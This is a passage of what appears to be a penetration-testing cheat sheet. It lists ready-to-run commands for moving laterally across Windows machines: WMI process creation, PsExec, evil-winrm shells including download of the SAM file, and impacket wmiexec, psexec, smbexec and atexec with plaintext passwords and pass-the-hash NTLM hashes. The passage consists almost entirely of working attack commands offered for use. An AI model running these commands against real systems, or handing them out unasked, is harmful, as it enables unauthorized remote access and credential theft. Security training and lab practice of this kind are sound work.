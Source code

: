 - [ ] Invoke the WMI session through PowerShell on the Target Machine
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

## PsExec64.exe
- [ ] Start an interactive session on the Target Machine
```powershell
./PsExec64.exe -i  \\WEB69 -u hentaidomain\salesman -p Sussy365! cmd
```

## evil-winrm
- [ ] Get fully-interactive shell access from your Kali Machine
```bash
proxychains evil-winrm -i 172.16.yyy.yyy -u Administrator@hentai.com -p 'blu!BAHElSv01$'
```

- [ ] Using `evil-winrm` to download file from Target Machine
```bash
download sam
```

- [ ] Using `evil-winrm` to upload file to Target Machine
```bash
upload local_filename
```

## impacket
### wmiexec
- [ ] Get fully-interactive shell access from your Kali Machine
```bash
proxychains impacket-wmiexec hentaidomain/Administrator:'blu!BAHElSv01$'@172.16.yyy.yyy
```

- [ ] Get fully-interactive shell access by passing the NTLM Hash from your Kali Machine
```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:e97a3a230ea655abed4f0027e762964b Administrator@192.168.yyy.yyy
```
### psexec
- [ ] Get fully-interactive shell access from your Kali Machine
```bash
proxychains impacket-psexec hentaidomain/Administrator:'blu!BAHElSv01$'@172.16.yyy.yyy
```

- [ ] Get fully-interactive shell access by passing the NTLM Hash from your Kali Machine
```
impacket-psexec -hashes 00000000000000000000000000000000:e97a3a230ea655abed4f0027e762964b Administrator@192.168.yyy.yyy
```
### smbexec
- [ ] Get semi-interactive shell from your Kali Machine
```bash
proxychains impacket-smbexec hentaidomain/Administrator:'blu!BAHElSv01$'@172.16.yyy.yyy
```
### atexec
- [ ] Get remote code execution from your Kali Machine
```bash
proxychains impacket-atexec hentaidomain/Administrator:'blu!BAHElSv01$'@172.16.yyy.yyy whoami
```